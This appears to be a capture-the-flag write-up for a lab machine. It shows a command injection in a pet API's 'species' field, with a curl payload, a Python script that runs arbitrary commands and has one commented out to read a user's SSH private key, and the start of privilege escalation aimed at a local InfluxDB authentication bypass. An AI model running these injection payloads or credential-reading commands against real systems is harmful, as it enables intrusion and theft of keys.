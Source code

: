 There errors are related to bash script. ;**[Source](https://www.redhat.com/sysadmin/exit-codes-demystified)**

When i send the POST request with "species" value that is not defined, get response "exit status 1" and when i add extra `'` in the "species" value get the response "exit status 2". These errors match the bash [exit code reference](https://tldp.org/LDP/abs/html/exitcodes.html)


If "species" parameter goes into a bash script then this could be command injection.

And this is indeed a command injection bug
```bash
❯ curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":";id"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":";id","characteristics":"cat: characteristics/: Is a directory\nuid=1000(patrick) gid=1000(patrick) groups=1000(patrick)\n"}]
```

python script to beautify command output
```py
import re
import requests as r

cmd = 'ls -la'  # 'cat /home/patrick/.ssh/id_rsa'
postrspn = r.post('http://pets.devzat.htb/api/pet', json={"name": "cat", "species": f";{cmd}"})
if 'Pet was added successfully' in postrspn.text:
    getrspn = r.get('http://pets.devzat.htb/api/pet')
    parse = re.findall(r'elephant."},(.*?)"}]', getrspn.text)[0].encode('utf-8').decode('unicode_escape')
    print(parse)
else:
    print(postrspn.text)
```

from `/home/patrick/` get ssh private key for that user.

# Privesc

## InfluxDB authentication bypass vulnerability

There are some local services running.
```bash
LISTEN    0         4096             127.0.0.1:8086             0.0.0.0:*
LISTEN    0         4096             127.0.0.1:8443             0.0.0.0:*
```

port 8086 Running InfluxDB http admin 1.7.5
```bash
patrick@devzat:~$ curl -i 127.0.0.1:8086
HTTP/1.1 404 Not Found
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Sat, 27 Nov 2021 08:58:29 GMT
Content-Length: 19

404 page not found
```
